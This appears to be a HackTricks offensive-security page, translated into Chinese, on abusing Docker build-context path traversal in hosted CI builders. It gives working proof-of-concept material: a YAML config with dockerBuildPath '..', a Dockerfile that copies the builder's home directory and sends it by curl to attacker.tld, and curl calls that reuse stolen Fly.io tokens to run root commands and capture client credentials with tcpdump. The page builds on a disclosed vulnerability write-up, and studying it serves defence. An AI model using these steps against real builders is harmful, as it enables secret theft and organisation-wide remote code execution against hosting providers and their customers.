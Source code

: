 # 在 Hosted Builders 中滥用 Docker Build Context (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

如果一个 CI/CD 平台或 hosted builder 允许贡献者指定 Docker build context 路径和 Dockerfile 路径，你通常可以将 context 设置为父目录（例如 ".."），使主机文件成为 build context 的一部分。然后，攻击者控制的 Dockerfile 可以使用 COPY 并 exfiltrate 位于 builder 用户主目录的秘密（例如 ~/.docker/config.json）。被窃取的 registry tokens 也可能对提供商的 control-plane APIs 生效，从而导致 org-wide RCE。

## Attack surface

许多 hosted builder/registry services 在构建用户提交的镜像时大致按以下方式工作：
- 读取包含以下内容的 repo 级配置：
- build context path（发送给 Docker daemon）
- Dockerfile path（相对于该 context）
- 将指定的 build context 目录和 Dockerfile 复制到 Docker daemon
- 构建镜像并以托管服务运行

如果平台没有对 build context 进行规范化并加以限制，用户可以将其设置为仓库之外的位置（path traversal），使构建用户可读的任意主机文件成为 build context 的一部分，并可在 Dockerfile 中被 COPY。

常见的实际限制：
- Dockerfile 必须位于所选 context 路径内，且其路径必须事先已知。
- 构建用户必须对包含在 context 中的文件具有读取权限；特殊设备文件可能会导致复制失败。

## PoC: Path traversal via Docker build context

示例恶意服务器配置，声明一个位于父目录上下文中的 Dockerfile：
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
注意：
- 使用 ".." 常常解析到 builder 用户的 home（例如 /home/builder），该目录通常包含敏感文件。
- 将你的 Dockerfile 放在 repo 的目录名下（例如 repo "test" → test/Dockerfile），这样它会保持在展开的父上下文内。

## PoC: Dockerfile 用于摄取并 exfiltrate 主机上下文
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
常见从 $HOME 恢复的目标：
- ~/.docker/config.json (registry auths/tokens)
- 其他 cloud/CLI 缓存和配置（例如：~/.fly, ~/.kube, ~/.aws, ~/.config/*）

提示：即使仓库中存在 .dockerignore，易受攻击的平台端上下文选择仍然决定发送到 daemon 的内容。如果平台在评估你仓库的 .dockerignore 之前就将所选路径复制到 daemon，主机文件仍可能被暴露。

## Cloud pivot — 使用权限过大的 tokens (example: Fly.io Machines API)

某些平台会签发单个 bearer token，可同时用于 container registry 和 control-plane API。如果你窃取了 registry token，尝试将其用于 provider API。

使用从 ~/.docker/config.json 偷取的 token 对 Fly.io Machines API 的示例 API 调用：

列举 org 中的 apps：
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
在应用的任何机器中以 root 身份运行命令：
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
结果：在 token 拥有足够权限时，可对所有托管应用实现整个组织范围的 remote code execution。

## 来自被攻陷的托管服务的机密窃取

在托管服务器上获得 exec/RCE 后，你可以收集客户端提供的 secrets（API keys、tokens），或发起 prompt-injection attacks。示例：安装 tcpdump 并捕获 port 8080 上的 HTTP 流量以提取传入 credentials。
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
捕获到的请求通常会在 headers、bodies 或 query params 中包含 client credentials。

## 参考资料

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
